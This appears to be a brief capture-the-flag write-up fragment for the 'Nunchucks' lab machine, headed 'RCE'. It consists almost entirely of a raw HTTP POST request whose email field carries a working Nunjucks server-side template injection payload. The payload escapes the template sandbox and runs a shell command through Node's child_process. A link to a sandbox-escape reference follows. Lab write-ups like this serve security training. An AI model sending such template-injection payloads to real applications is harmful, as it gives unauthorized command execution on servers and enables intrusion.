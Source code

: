 # RCE 

	POST /api/submit HTTP/1.1
	Host: store.nunchucks.htb
	Cookie: _csrf=6wAce7IXZ_61Jr5nkmoR474o
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: https://store.nunchucks.htb/
	Content-Type: application/json
	Origin: https://store.nunchucks.htb
	Content-Length: 117
	Te: trailers
	Connection: close

	{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('whoami')\")()}}"}
	
	
	http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine